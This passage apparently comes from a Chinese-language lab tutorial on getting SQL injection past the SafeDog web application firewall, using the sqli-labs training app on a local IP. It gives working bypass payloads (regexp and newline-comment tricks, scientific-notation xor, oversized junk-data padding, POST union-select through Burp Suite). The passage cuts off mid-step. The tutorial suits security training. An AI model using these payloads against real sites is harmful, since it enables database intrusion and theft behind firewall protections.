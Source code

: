 > 成功绕过
>
> `/*/!*/` 中间的 `/` 后加任意字符都可以，破坏了正则匹配

### 1.2.2 regexp 绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=1' regexp "%0A%23" /*!11144union %0A select */1,2,3--+
```

### 1.2.3 科学计数法绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1'xor .1e1like "[%0a%23]"/*!11144union %0a select */1,2,3--+
```

### 1.2.4 产品缺陷绕过

使用脚本生成垃圾数据，安全狗大约需要 30 K 的垃圾数据，约为 800 个字符

```
┌──(root㉿kali-31)-[~]
└─# python generationData_bypass.py 800 > bypass.txt
```

查看生成的文件大小

```
┌──(root㉿kali-31)-[~]
└─# du -h bypass.txt                        
32K     bypass.txt
```

测试使用 POST 注入的关卡

> http://192.168.186.129/sqli-labs/Less-11

在 BurpSuite 开启拦截，提交 SQL 注入

```
admin
'union select 1,2-- +
```

在重放器中放行请求数据包，发现未被拦截

> 安全狗默认不检测 POST 请求

**开启安全狗防 POST 类型的 SQL 注入**

以管理员身份运行安全狗
